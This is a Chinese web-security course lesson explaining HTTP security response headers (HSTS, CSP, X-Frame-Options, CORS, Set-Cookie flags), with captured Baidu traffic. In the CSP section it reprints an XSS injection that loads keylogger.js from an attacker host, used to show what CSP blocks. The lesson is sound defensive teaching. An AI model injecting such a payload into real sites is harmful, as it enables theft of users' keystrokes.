




# 30 | HTTPHeader安全标志：协议级别的安全支持

你好，我是王昊天。

前几天，我在路上遇到了一个外国友人，他用英语问我如何前往上海火车站。我一时没缓过神，直接用中文回答他，乘坐一号线就可以到达。看着他迷茫的眼神，我反应了过来，接着赶忙用英语来回答他。还好我英文不错，他听懂了，在对我说了声谢谢后就走上了一号线。

事后，我反思了一下，我们人和人之间的沟通，其实都会按照一个隐形的协议去进行，例如我会中文和英文，外国友人却只会英文，所以我们就需要用英文才能进行沟通。

那么你知道我们是如何与 Web 应用进行有效通信的吗？事实上，我们与 Web 应用的交互也离不开一个广泛运用的协议—— HTTP 协议。这个协议规定了，Web 客户端如何从 Web 服务器请求 Web 页面，以及服务器如何把 Web 页面传送给客户端。

除了这些广为人知的作用，HTTP 协议还能对 Web 应用提供一些安全支持。这一讲，我们就一起学习下 HTTP 协议对于安全有哪些支持。

## HTTP 协议

首先，我们需要搞清楚什么是 HTTP 协议。

HTTP 协议，即超文本传输协议 Hyper Text Transfer Protocol。它是一个简单的请求 - 响应协议，且通常运行在 TCP 协议之上。它指定了客户端可能发送给服务器什么样的消息以及得到什么样的响应。这个协议是早期 Web 成功的有功之臣，因为它使开发和部署非常得直截了当。


在了解完 HTTP 协议的大致功能后，让我们一起看一个示例，了解 HTTP 协议所规定的消息样式。

这是我访问百度页面时，用 BurpSuite 捕获到的报文：

```
GET / HTTP/1.1
Host: www.baidu.com
Cookie: BIDUPSID=D6FC148CB0142694E6019498ECE6FA8F; PSTM=1644916942;
...
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

我们可以看到，这是一个请求报文，报文中第一行内容为 HTTP 请求的方式，以及所用到的HTTP 协议版本。其它行都是定义的 HTTP 请求头信息，即 HTTP Request Header 信息。

将请求报文发出后，我们会收到 Web 应用返回的响应报文：

```xml
HTTP/1.1 200 OK
Bdpagetype: 1
Bdqid: 0xeafae0b1000f161a
Cache-Control: private
Content-Type: text/html;charset=utf-8
Date: Tue, 15 Feb 2022 12:35:42 GMT
Expires: Tue, 15 Feb 2022 12:35:31 GMT
Server: BWS/1.1
Set-Cookie: BDSVRTM=0; path=/
Set-Cookie: BD_HOME=1; path=/
Set-Cookie: H_PS_PSSID=35410_35104_31254_34584_35491_35872_35796_35324_26350_3574
Strict-Transport-Security: max-age=172800
...
<!DOCTYPE html><!--STATUS OK-->
<html>...</html>
```

我们可以发现，响应报文的第一行也是所使用的 HTTP 协议版本信息，后面会跟上响应的状态码。下面几行，会包含一些 HTTP Response Header 即 HTTP 响应头信息。最后，从<html> 标签开始，是响应页面的内容。

到这里，我们已经知道了 HTTP 协议的作用，并且对 HTTP 请求报文和响应报文都有了一定的了解。接下来，让我们来学习 HTTP Header 中的安全标志，了解 HTTP 协议为了保证 Web应用的安全做出了哪些应对措施。

## HTTP Header 安全标志

HTTP 协议可以分为请求与响应两部分，所以 HTTP Header 按照功能也可以分为 HTTP 请求头以及 HTTP 响应头。

其中请求头包含了有关要获取资源的客户端信息，而响应头则包含一些有关响应的附加信息。因此，有关安全的 HTTP 头，都被设在 HTTP 响应标头中。下面，让我们一起看几个典型的HTTP 安全响应头，它们都是用于定义是否应在 Web 浏览器上激活一些安全预防措施。

### HSTS 标志

HSTS 标头即 HTTP Strict Transport Security 的简称，它是 Web 应用使用最广泛的安全标志之一。这个标志会告诉浏览器只能通过 HTTPS 协议访问当前资源，而不可以使用 HTTP 访问。

这里，我们来了解下什么是 HTTPS 协议。

这还要从 HTTP 协议说起，虽然 HTTP 协议使用极为广泛，但是却存在不小的安全缺陷，主要是其数据的明文传送和消息完整性检测的缺乏，而这两点恰好是网络支付等新兴应用中安全方面最需要关注的。

关于 HTTP 的明文数据传输，最常用的攻击手法就是网络嗅探。攻击者可以试图从传输过程当中分析出敏感的数据，例如从管理员对 Web 程序后台的登录过程中，攻击者可以从中获取网站的账号密码，从而获取网站管理权限。

另外，HTTP 在传输客户端请求和服务端响应时，唯一的数据完整性检验就是在报文头部包含了本次传输数据的长度，而对内容是否被篡改不作确认。 因此攻击者可以轻易地发动中间人攻击，修改客户端和服务端传输的数据，甚至在传输数据中插入恶意代码只需要保证传输数据长度不变即可。

为了解决这个问题，HTTPS 协议应运而生，它是由 HTTP 加上 TLS/SSL 协议构建的可进行加密传输、可检测消息完整性的网络协议。因此，当我们使用 HTTPS 访问一个页面时，会更有安全保障。

接下来，让我们通过一个示例，来体会 HSTS 标志的作用。

我们先使用 HTTP 协议访问百度，获取到如下报文：



从报文中，我们可以看到请求发出后，收到了响应 302，这意味着需要进行跳转操作。从location 信息中，我们发现它会跳转到百度的 HTTPS 服务。



接着，我们果然看到一个发往 https://www.baidu.com 的请求报文，并且在请求报文中，配置了 Strict-Transport-Security，并且给它赋值为 max-age=172800，这意味着该配置的有效时间为 172800 秒，即 48 小时。

为了方便观察，我们清空 HTTP history 中的记录，再次用 HTTP 协议访问百度页面，获取到的记录如下：



可以看到我们的 HTTP 访问直接变为了更安全的 HTTPS 访问，这就是 HSTS 标志的作用。

到这里，我们已经学完了 HTTP 协议的第一个安全标志。接下来，让我们继续学习其他的安全标志。

### CSP 标志

不知道你是否还记得 CSP 即 Content-Security-Policy，我们在之前学习 XSS 攻击的防御时曾提到过这一防御方案。事实上，它也是一个 HTTP 安全响应头，我们可以利用它来定义页面可以加载哪些资源。

这么说可能有点抽象，下面让我们一起看一个示例，来帮助我们理解 CSP 的作用。

```
Content-Security-Policy: script-src 'self'
这是一个 CSP 标志配置示例，它的值为 script-src 'self'，这代表会对 JavaScript 代
```

码的加载做一些限制，仅允许加载与 Web 页面相同来源的 JavaScript 代码。注意，这里的相同来源指的是相同的协议、域名和端口。

回顾我们用 XSS 攻击实现按键记录的过程，我们需要利用如下语句加载恶意服务器上的

```xml
keylogger.js 的内容，从而实现按键记录功能。
<script%20src=http://192.168.3.193/keylogger.js></script>
```

可如果被攻击的 Web 应用添加了上述 CSP 策略，就会导致我们的 JavaScript 代码加载失败，从而无法实现我们的攻击行为。

下面，让我们继续学习 X-Frame-Options 安全标志的功能。

### X-Frame-Options 标志

X-Frame-Options 响应头也是一个重要的 HTTP Header 安全标志，它用来配置是否允许一个页面可在 <frame>、<iframe>、<embed> 或者 <object> 中展现设置的内容。

接下来，我们一起来看一个示例：

```
X-Frame-Options: DENY
```

在这个示例中，我们将它的值设为 DENY，表示该页面不允许在 frame 等上述标签中展示任何内容。事实上，它还有两个可能取值 SAMEORIGIN 以及 ALLOW-FROM uri。其中SAMEORIGIN 代表仅允许在上述标签中展示与当前页面域名相同的内容，而 ALLOW-FROMuri 则代表仅允许在其中展示 uri 对应页面的内容。

还记得我们在 XSS 学习中，曾今利用 XSS 攻击实现了广告的植入操作，产生的效果如下图所示：



如果 Web 应用在响应中配置了这一标签，那么就可以有效地抵御广告的植入。

接下来，我们继续来学习另一个常用的 HTTP 协议响应头，即 Access-Control-Allow-Origin，它可以用来进行资源的访问权限设置。

### Access-Control-Allow-Origin 标志

Access-Control-Allow-Origin 标志指定了该响应的资源是否被允许与给定的 origin 共享。

为了让你更好地理解，下面让我们一起来看一些示例：

```
Access-Control-Allow-Origin: *
# 或
Access-Control-Allow-Origin: https://mituan.zone
```

它有两种配置方式，第一种将它的值设为 *，这代表允许所有域名访问当前响应的资源。第二种将它的值设为一个具体的 uri，这代表仅允许该域名访问当前响应的资源。因此，Access-Control-Allow-Origin 标志可以使网站之间安全地跨域获取资源。

最后，我们来看一个相对熟悉一些的 HTTP 响应头 Set-Cookie。

### Set-Cookie 标志

在上一讲中，我们学习了保持登陆状态的认证，事实上，它就是通过 Set-Cookie 来实现的。

Set-Cookie 标志不仅可以用来配置浏览器的 Cookie 信息，同时它还能对 Cookie 信息进行一些保护。下面，还是一起看一个示例：

```
Set-Cookie: <cookie-name>=<cookie-value>; Secure; HttpOnly
```

在这个示例中，我们写入了一个 cookie 的值，同时在后面加了两个配置项，Secure 以及HttpOnly。其中 Secure 的作用是强制 cookie 只能在 HTTPS 环境下传递，而 HttpOnly 则可以禁止使用 JavaScript 去存取 cookie。它们都可以有效地保护 cookie 信息，防止攻击者窃取cookie。

## 总结

在这一讲中，我们学习了 HTTP Header 对于 Web 提供的协议级别的安全支持。

首先，我们回顾了 HTTP 协议的内容，并对请求报文的格式以及响应报文的格式等基础知识进行了学习与回顾。

在学习基础知识的过程中，我们了解到在响应报文中，会存在一些 HTTP Header 信息。其中，有的 HTTP Header 内容可以对我们的 Web 应用进行保护。

最后我们对其中常用的五个典型 HTTP Header 进行了学习。它们分别为 HSTS 标志、CSP标志、X-Frame-Options 标志、Access-Control-Allow-Origin 标志以及 Set-Cookie 标志。在学习过程中，我们了解了它们的作用，并通过示例理解了它们的配置方式。

## 思考题

你知道还有哪些 HTTP Header 可以对 Web 应用提供安全支持吗？

欢迎在评论区留下你的思考。如果觉得今天的内容对你有所帮助的话，也欢迎你把课程分享给其他同事或朋友，我们共同学习进步！
